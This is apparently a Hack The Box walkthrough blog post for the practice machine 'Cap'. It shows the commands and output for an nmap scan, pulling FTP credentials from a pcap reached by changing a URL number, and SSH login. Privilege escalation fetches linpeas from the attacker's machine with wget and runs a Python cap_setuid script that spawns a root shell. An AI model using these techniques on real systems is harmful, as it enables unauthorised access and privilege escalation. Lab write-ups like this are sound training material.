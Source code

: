 ```yaml
---
layout: post
title: "HTB-Cap"
---
```


<p>In Cap, we found a pcap file exposing FTP creds, logged in for user access, exploited Python’s cap_setuid to run a script as root, and obtained the root flag.</p>

<h2>Introduction</h2>
<p>In this post, I will demonstrate the exploitation of a fairly easy machine called "Cap" on hack the box. Overall, it was a fun but simple experience. A perfect entry level box!</p>
<h2> Step 1: running an Nmap scan on the target</h2>
<p>As always, we start with an Nmap scan on the target. I like to use the options -sC and -sV to run some Nmap scripts and do service detection, respectively. This allows us to capture a lot of information as a starting point.</p>
<p>We get the following output:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC 10.10.10.245 -p-
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 05:20 EDT
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 39.46% done; ETC: 05:20 (0:00:05 remaining)
Nmap scan report for 10.10.10.245
Host is up (0.0096s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.41 seconds
</pre>

<p> In this box, we have a webserver running gunicorn as well as ftp and ssh on port 80, 21 and 22 respectively.</p>

<h2>Step 2: Attempting anonymous ftp login</h2>
<p>When I see an active ftp service, the first thing i like to do is attempt to do an anonymous login to determine whether some important files are exposed. However, this time it did not work.
<pre>
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
</pre>

<h2>Step 3: Enumerating the website</h2>
<p>Next, I started with exploring the website. The home page did not seem all that interesting.</p>
<img src="/images/cap/cap_site.webp" alt="Cap Home Page" class="postImage">

<p>However, the Security Snapshot page seemed very interesting as we are able to download pcap files. interestingly, the pcap file we download changes alongside the url. Specifically, the URL is: http://IP/data/1. if we download the pcap file, we get 1.pcap, which is empty. Therefore; i tried increasing the number in the URL from 1 to 2 and so on. However, this resulted in empty pcap files. The next thing i tried was to decrement the number form 1 to 0. Bingo, we get a pcap file which is not empty.</p>
<img src="/images/cap/cap_data0.webp" alt="Retrieving a non-empty pcap file" class="postImage">

<p> Examination of the pcap file with Wireshark exposes some ftp credentials.</p>
<img src="/images/cap/cap_wireshark_username.webp" alt="ftp Username Wireshark" class="postImage">
<img src="/images/cap/cap_wireshark_password.webp" alt ="ftp Password Wireshark" class="postImage">

<p>Logging in to the ftp server with those credentials, the root flag was obtained</p>
<pre>
└─$ ftp 10.10.10.245                                               
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||19989|)
150 Here comes the directory listing.
-rwxrwxr-x    1 1001     1001       956174 Aug 08 19:43 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Aug 15 09:38 snap
-r--------    1 1001     1001           33 Aug 15 09:33 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||50720|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |********************************************************************************************************************************************|    33        1.25 MiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (3.54 KiB/s)
ftp> 
</pre>

<p>Let's try the same credentials to login using ssh. Bingo, we have now user access to the machine</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Aug 15 10:25:16 UTC 2025

  System load:           0.12
  Usage of /:            36.7% of 8.73GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             247
  Users logged in:       1
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:fe94:f400

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Aug 15 10:11:41 2025 from 10.10.14.211
nathan@cap:~$ 
</pre>

<h2>Step 5: Privilege escalation: Gaining root on the box</h2>
<p>Next, we need to do some privilege escalation to gain root and the root.txt flag. At first sight, i did not find anything that stands out that could be used to gain root. Therefore, I decided to run Linpeas on the machine to retrieve more information. Linpeas is a bash script which gathers information and identifies possible vectors for privilege escalation</p>
<p>In order to get Linpeas on the box, we need to set up a python http server on our attacking kali machine. To do this, navigate to the directory where Linpeas is located and type the following command:</p>
<pre>
python3 -m http.server 9000
</pre>
<p>Next, on the victim machine, navigate to the tmp directory (write privileges needed) and retrieve the file using wget:</p>
<pre>
wget IP_ATTACKING_MACHINE:9000/linpeas.sh
</pre>
<p> running linpeas, we get a lot of output. The most interesting seems that python3.8 has cap_setuid set. This capability allows a process to change its uid. Therefore, we can misuse this capability to gain a root shell by creating a very simple python script</p>
<pre>
import os
print("setting uid to 0")
os.setuid(0)
print("spawning a shell as root")
os.system('/bin/bash')
</pre>
<p>So what does this exactly do? Firstly, it sets the uid of the process (our python script) to 0 meaning that it is essentially being run as root (root always has uid 0). Now that our process runs as root, we spawn a bash shell. Because our process/ python script was ran as root, our bash shell is also running as root.</p>
<p>Congratulations, you have successfully rooted this box!</p>
<h2>Final thoughts</h2>
<p>In general, this was a fun but quite easy box. Therefore, it's a perfect starting point for beginners who are looking for an introduction to the methodology. If you are looking for more of such beginner friendly boxes. I would advise to tackle some easy boxes on TryHackme as they are quite similar</p>
<a href="/">Go to the Home Page</a>
